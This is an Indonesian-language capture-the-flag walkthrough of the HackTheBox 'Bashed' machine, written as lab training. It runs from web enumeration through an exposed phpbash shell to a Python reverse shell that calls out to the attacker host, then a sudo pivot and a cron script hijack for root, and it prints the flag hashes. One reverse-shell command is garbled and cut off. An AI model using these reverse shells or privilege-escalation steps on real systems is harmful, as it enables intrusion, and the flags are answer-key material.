 ```yaml
---
date: 2023-12-10T10:21:05+07:00
title: "HackTheBox: Bashed"
slug: "htb-bashed"
tags:
  - Linux
  - HackTheBox
  - Writeup
description: "Bashed is a fairly easy machine which focuses mainly on fuzzing and locating important files. As basic access to the crontab is restricted."
---
```

Bashed is a fairly easy machine which focuses mainly on fuzzing and locating important files. As basic access to the crontab is restricted.

IP: 10.129.39.120

---

## Information Gathering
Scan port yang terbuka:
```bash
$ nmap -Pn -p- -oN nmap_all_ports.txt --min-rate 1000 10.129.39.120
Nmap scan report for 10.129.39.120
Host is up (0.041s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http
```

Terdapat satu port terbuka, yaitu port 80 dengan service HTTP.

### Enumerasi HTTP
Cari direktori atau file menarik di port 80.
```bash{10-11}
$ feroxbuster -u http://10.129.39.120 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -o feroxbuster.txt
301      GET        9l       28w      315c http://10.129.39.120/images => http://10.129.39.120/images/
200      GET        8l       35w     2447c http://10.129.39.120/images/logo.png
200      GET        8l       73w     2429c http://10.129.39.120/js/html5.js
200      GET      154l      394w     7477c http://10.129.39.120/single.html
200      GET       32l      116w     1222c http://10.129.39.120/css/carouFredSel.css
200      GET      680l     1154w    10723c http://10.129.39.120/css/common.css
---SNIP---
200      GET        0l        0w        0c http://10.129.39.120/php/sendMail.php
200      GET        1l      255w     4559c http://10.129.39.120/dev/phpbash.min.php
200      GET      216l      489w     8151c http://10.129.39.120/dev/phpbash.php
```

Terdapat dua file menarik, yaitu `phpbash.min.php` dan `phpbash.php`.

Ketika membuka file `phpbash.min.php`, kita mendapatkan halaman `shell`.

![phpbash.min.php-](image.png)

Selanjutnya, kita bisa melakukan reverse shell ke terminal kita supaya kita dapat leluasa menjalankan command.

```bash
$ nc -lnvp 1337
listening on [any] 1337
```

```bash
www-data@bashed:/var/www/html/dev# python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.4",1337));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```

```bash
$ nc -lnvp 1337
listening on [any] 1337
connect to [10.10.14.4] from (UNKNOWN) [10.129.39.120] 54284
$ whoami 
whoami
www-data
$
```

Sudah dapat shell, ternyata kita login sebagai `www-data`.

## Post Exploitation
Karena kita login sebagai pengguna dengan wewenang sedikit, maka kita perlu menaikkan wewenang kita ke yang lebih tinggi. Yaitu dengan Privilege Escalation.

### Linpeas
Jalankan linpeas, menemukan beberapa hal menarik.
```bash
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
---SNIP---
╔══════════╣ Unexpected in root
/scripts
/initrd.img
/.bash_history
/vmlinuz
```

Dengan sudo tanpa password, kita bisa pindah ke akun `scriptmanager`.

```bash
www-data@bashed:/$ sudo -u scriptmanager /bin/bash
sudo -u scriptmanager /bin/bash
scriptmanager@bashed:/$
```

Cek direktori `/scripts`.
```bash
criptmanager@bashed:/scripts$ ls -lah
ls -lah
total 16K
drwxrwxr--  2 scriptmanager scriptmanager 4.0K Jun  2  2022 .
drwxr-xr-x 23 root          root          4.0K Jun  2  2022 ..
-rw-r--r--  1 scriptmanager scriptmanager  205 Dec  9 19:13 test.py
-rw-r--r--  1 root          root            12 Dec  9 19:13 test.txt
```

Terlihat bahwa kita bisa mengubah `test.py`. Di dalam `test.py` terdapat perintah untuk membuat `test.txt`. Karena `test.txt` milik root, maka ada kemungkinan `test.py` dijalankan oleh root.

Jadi, kita ubah isi `test.py` menjadi revshell baru.

```bash
scriptmanager@bashed:/scripts$ echo 'import socket,s.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4"up2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; 
<eno(),1);os.dup2(s.fileno(),2);import pty; pty.spaw
scriptmanager@bashed:/scripts$
```

```bash
╭─  MidnightRumble  ~                             
╰─❯ nc -lnvp 1234                                   
listening on [any] 1234 ...
connect to [10.10.14.4] from (UNKNOWN) [10.129.39.12]
# whoami
whoami
root
#
```

### user.txt
```bash
scriptmanager@bashed:/home$ cat arrexel/user.txt
cat arrexel/user.txt
27b41f7431caf2b873952ce0ee982a02
```

### root.txt
```bash
# cat root.txt
cat root.txt
836161db4f4d3b069946ca8d8a20b67b
#
```
